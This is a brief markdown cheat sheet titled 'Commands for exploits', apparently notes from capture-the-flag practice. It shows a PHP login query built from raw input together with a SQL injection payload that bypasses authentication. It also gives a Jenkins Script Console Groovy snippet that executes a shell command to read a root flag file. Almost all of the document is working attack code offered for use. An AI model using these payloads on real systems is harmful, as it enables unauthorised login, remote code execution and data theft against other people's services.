 Commands for exploits
---

## SQL Injection

```
php sql injection
---
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";


EXPLOIT:
username = admin'#
```

## Jenkins RCE

Go "Mangage Jenkins" -> "Script Console"

```
def proc = "cat root/flag.txt".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
``
